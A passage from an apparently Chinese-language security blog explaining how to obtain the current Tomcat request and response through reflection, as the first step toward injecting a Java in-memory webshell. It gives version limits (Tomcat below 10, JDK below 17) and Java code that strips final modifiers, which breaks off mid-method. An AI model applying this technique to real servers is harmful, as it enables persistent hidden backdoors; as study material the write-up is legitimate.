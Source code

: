 这里的赋值来自于internalDoFilter参数，看样子等同于jsp的内置对象request

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225191457946.png)

于是有了利用思路：

1. 反射修改`ApplicationDispatcher.WRAP_SAME_OBJECT`为true，此时lastServicedRequest和lastServicedResponse有了值

2. 由于已经反射修改了`WRAP_SAME_OBJECT`，而if内的set是调用ThreadLocal.set()，肯定得先初始化lastServicedRequest和lastServicedResponse。代码可以直接copy ApplicationFilterChain static块

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225193232467.png)

3. 不管我们是在doFilter还是servlet.service处进行内存马利用，都需要先运行一遍internalDoFilter才能成功赋值。也就是需要访问两次对应servlet，一次反射赋值，一次取出request和response。而且lastServicedRequest和lastServicedResponse、WRAP_SAME_OBJECT都是final修饰，需要加一步反射。

上述利用存在两个个利用条件：

一是 JDK 在 17 版本之后不能够通过反射去修改 final 属性值。也就是在 Springboot3 或者 Spring6 这种内置要求 JDK17 版本之后的服务都不能通过这种方式打入内存马

二是 tomcat10.1.x 之后的版本（也就是 Springboot3 要求的版本），判断条件也发生了变化

所以利用场景限制于 Tomcat<10 ，JDK<17 的情况，具体一点就是 Springboot2，spring5，以及版本符合条件的 javaweb 环境等（高版本有高版本的方法，之后再写）

```java
        try{
            //反射获取WRAP_SOME_OBJECT_FIELD lastServicedRequest lastServicedResponse
            Field WRAP_SOME_OBJECT_FIELD=Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field lastServicedRequestfield= ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponsefield=ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");
            WRAP_SOME_OBJECT_FIELD.setAccessible(true);
            lastServicedRequestfield.setAccessible(true);
            lastServicedResponsefield.setAccessible(true);
            //使用modifiersField修改属性值的final修饰
            //每一个Field都会存在一个变量 modifiers用来描述修饰词，所以这里我们获取到的是Field的modifiers 它本质上是一个int类型的值
            java.lang.reflect.Field  modifiersfield= Field.class.getDeclaredField("modifiers");
            modifiersfield.setAccessible(true);

            //修改WRAP_SOME_OBJECT_FIELD以及requst和response的modifiers，值的话由于要得到16进制位数，并且清除final属性，本质上就是将他修改为0x0000即可，这里getModifiers()的结果为0x0010 Modifier.FINAL的结果也是0x0010，所以两者&~运算得到0x0000
            modifiersfield.setInt(WRAP_SOME_OBJECT_FIELD,WRAP_SOME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);
            modifiersfield.setInt(lastServicedRequestfield,lastServicedRequestfield.getModifiers() & ~Modifier.FINAL);
            modifiersfield.setInt(lastServicedResponsefield,lastServicedResponsefield.getModifiers() & ~Modifier.FINAL);


            //如果是第一次访问，WRAP_SOME_OBJECT_FIELD肯定是没有值的，所以我们赋值上true 并且同时给lastServicedRequest和lastServicedResponse都初始化
            if(!WRAP_SOME_OBJECT_FIELD.getBoolean(null)){
                WRAP_SOME_OBJECT_FIELD.setBoolean(null,true);
                lastServicedResponsefield.set(null,new ThreadLocal<ServletResponse>());
                lastServicedRequestfield.set(null,new ThreadLocal<ServletRequest>());

            }else{//第二次访问开始正式获取当前线程下的Req和Resp
                ThreadLocal<ServletRequest> threadLocalReq= (ThreadLocal<ServletRequest>)lastServicedRequestfield.get(null);
                ThreadLocal<ServletResponse> threadLocalResp=(ThreadLocal<ServletResponse>) lastServicedResponsefield.get(null);
                ServletRequest servletRequest = threadLocalReq.get();
                ServletResponse servletResponse = threadLocalResp.get();
                ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade) servletRequest.getServletContext();
```